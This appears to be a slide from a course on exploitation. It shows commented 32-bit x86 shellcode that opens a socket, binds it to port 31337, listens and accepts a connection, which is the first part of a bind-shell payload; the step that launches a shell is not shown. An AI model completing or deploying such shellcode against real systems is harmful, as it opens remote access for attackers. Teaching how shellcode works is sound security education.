

# example shellcode
BITS 32
; s = socket(2, 1, 0)
  push BYTE 0x66    ; socketcall is syscall #102 (0x66)
  pop eax
  cdq               ; zero out edx for use as a null DWORD later
  xor ebx, ebx      ; ebx is the type of socketcall
  inc ebx           ; 1 = SYS_SOCKET = socket()
  push edx          ; Build arg array: { protocol = 0,
  push BYTE 0x1     ;   (in reverse)     SOCK_STREAM = 1,
  push BYTE 0x2     ;                    AF_INET = 2 }
  mov ecx, esp      ; ecx = ptr to argument array
  int 0x80          ; after syscall, eax has socket file descriptor

  mov esi, eax      ; save socket FD in esi for later

; bind(s, [2, 31337, 0], 16)
  push BYTE 0x66    ; socketcall (syscall #102)
  pop eax
  inc ebx           ; ebx = 2 = SYS_BIND = bind()
  push edx          ; Build sockaddr struct:  INADDR_ANY = 0
  push WORD 0x697a  ;   (in reverse order)    PORT = 31337
  push WORD bx      ;                         AF_INET = 2
  mov ecx, esp      ; ecx = server struct pointer
  push BYTE 16      ; argv: { sizeof(server struct) = 16,
  push ecx          ;         server struct pointer,
  push esi          ;         socket file descriptor }

;CONTINUED FROM bind(s, [2, 31337, 0], 16)
  mov ecx, esp      ; ecx = argument array
  int 0x80          ; eax = 0 on success

; listen(s, 0)
  mov BYTE al, 0x66 ; socketcall (syscall #102)
  inc ebx
  inc ebx           ; ebx = 4 = SYS_LISTEN = listen()
  push ebx          ; argv: { backlog = 4,
  push esi          ;         socket fd }
  mov ecx, esp      ; ecx = argument array
  int 0x80

; c = accept(s, 0, 0)
  mov BYTE al, 0x66 ; socketcall (syscall #102)
  inc ebx           ; ebx = 5 = SYS_ACCEPT = accept()
  push edx          ; argv: { socklen = 0,
  push edx          ;         sockaddr ptr = NULL,
  push esi          ;         socket fd }
  mov ecx, esp      ; ecx = argument array
  int 0x80          ; eax = connected socket FD

Breathe deep.  Don't panic!